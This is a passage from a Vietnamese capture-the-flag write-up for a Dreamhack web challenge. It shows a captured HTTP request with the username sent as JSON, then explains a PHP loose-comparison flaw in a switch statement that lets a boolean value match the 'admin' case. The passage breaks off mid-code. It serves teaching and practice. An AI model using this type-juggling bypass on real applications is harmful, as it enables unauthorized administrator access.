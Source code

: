 **B3:** Bây giờ, ta đã nắm rõ quy trình của code rồi, ta sẽ tiến hành bắt lại gói tin POST khi nãy và chỉnh nó thành dạng JSON như sau:
```
POST /index.php HTTP/1.1
Host: host1.dreamhack.games:20083
Content-Length: 29
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://host1.dreamhack.games:20083
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:20083/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=bb129b1c05eab970f04de3114388db89
Connection: keep-alive

username={"username":"admin"}
```
Ta sẽ nhận được response là:
```
no hack
```
=> Xem ra phần gói JSON của ta đã được decode thành công.

**B4:** Bước tiếp theo là làm sao để ta có thể nhập `admin` để vượt qua được Switch Case `admin` mà có thể thoả điều kiện:
```
if($username === "admin" ){
        exit("no hack");
    }
```
Sau khi thử vài giả thuyết thì ta phát hiện ở `Switch Case` chỉnh là điểm ta có thể lợi dụng `Loose Comparsion` và để hiểu rõ hơn hãy xem ví dụ dưới đây:
```php
$value="hello";
switch ($value) {
    case 'admin' :
        echo 'true';
        break;
    default :
        echo 'default';
        break;
}

# Đoạn code trên sẽ tương đương với:
$value="hello";
if ($value == "admin")
{
    echo 'true';
}
```
Và điểm mấu chốt chính là dấu `==` có thể xảy ra lỗ hổng `Loose Comparsion`. Vậy câu hỏi ở đây là `$value` phải mang giá trị gì ngoài từ `admin` để có thể in ra được chữ `true`.
* **Trả lời:** Ta có thể ép kiểu boolean để vượt qua kiểm tra này.
```php
<?php 
$value=true;
switch ($value) {
    case 'admin' :
        echo 'one';
        break;
    default :
```